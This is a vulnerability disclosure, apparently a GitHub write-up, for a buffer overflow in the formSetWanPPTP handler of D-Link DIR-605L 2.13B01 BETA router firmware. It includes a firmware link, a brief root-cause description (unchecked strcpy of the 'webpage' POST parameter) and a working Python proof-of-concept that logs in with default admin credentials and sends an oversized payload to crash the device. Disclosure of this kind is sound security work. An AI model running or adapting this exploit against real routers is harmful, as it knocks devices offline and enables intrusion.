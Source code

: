 ## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：https://support.dlink.com/resource/SECURITY_ADVISEMENTS/DIR-605L/REVB/DIR-605L_REVB_FIRMWARE_v2.13B01_BETA.zip

## Affected version

D-Link DIR-605L 2.13B01 BETA

## Vulnerability details

In the D-Link DIR-605L 2.13B01 BETA firmware has a buffer overflow vulnerability in the `formSetWanPPTP` function. The `v4` variable receives the `webpage` parameter from a POST request. However, since the user can control the input of `webpage`, the `strcpy` can cause a buffer overflow vulnerability.

![image-20240926121405298](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240926121405298.png)

## POC

```python
import argparse, requests
import sys
import json

if sys.version_info[0] != 3:
    print("Please run the exploit in python3")
    sys.exit(1)

# You can also login with scripts below.
def login():
    login_url = "goform/formLogin"
    url = base_url + "/" + login_url
    print("1. Login: send request to", url)
    login_data = "curTime=1666884522835&FILECODE=a6.jpeg%0D%0A&VERIFICATION_CODE=LSYFZ&login_n=admin&login_pass=YWRtaW4A"
    response = requests.post(url=url, data=login_data, allow_redirects=False)
    print(response.text)


def poc():
    target_url = "goform/formSetWanPPTP"
    print("2. get target_url:", target_url)
    url = base_url + "/" + target_url
    print("3. send request to", url)
    
    # Using a dictionary to hold multiple parameters
    data = {
        "webpage": "A" * 2000,  # Adjust the number according to your needs
    }
    
    json_data = json.dumps(data)
    print("request body:", json_data)
    response = requests.post(url=url, json=data, allow_redirects=False)
    print(response.text)


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Run the exploit')
    parser.add_argument('ip', type=str, default=None, help='The Router IP')
    args = parser.parse_args()

    global base_url
    base_url = "http://{}".format(args.ip)

    # login()
    poc()

```

![image-20240926120958699](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240926120958699.png)
